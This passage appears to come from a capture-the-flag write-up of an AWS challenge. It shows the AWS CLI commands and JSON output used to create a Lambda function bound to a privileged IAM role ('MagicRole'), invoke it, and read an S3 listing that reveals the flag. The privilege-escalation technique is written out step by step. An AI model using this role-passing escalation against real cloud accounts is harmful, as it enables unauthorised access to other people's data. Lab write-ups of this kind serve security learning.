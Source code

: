    ```cmd
   aws lambda create-function --function-name EscalateLambda --runtime python3.8 --role arn:aws:iam::212353106417:role/MagicRole --handler lambda_function.lambda_handler --zip-file fileb://function.zip
   ```

   **Output:**
   ```json
   {
       "FunctionName": "EscalateLambda",
       "FunctionArn": "arn:aws:lambda:us-east-1:212353106417:function:EscalateLambda",
       "Runtime": "python3.8",
       "Role": "arn:aws:iam::212353106417:role/MagicRole",
       ...
   }
   ```

---

## Step‑4: Invoke and Troubleshoot the Lambda Function

I invoked the Lambda function:

```cmd
aws lambda invoke --function-name EscalateLambda output.json
```

**Output:**
```json
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```

A `output.json` file was created and while viewing its contents:
```json
\"Contents\": [{\"Key\": \"squ1rrel{dont_you_love_aws}.txt\", \"LastModified\": \"2025-04-04 05:59:47+00:00\"
```

**Flag:**  `squ1rrel{dont_you_love_aws}`

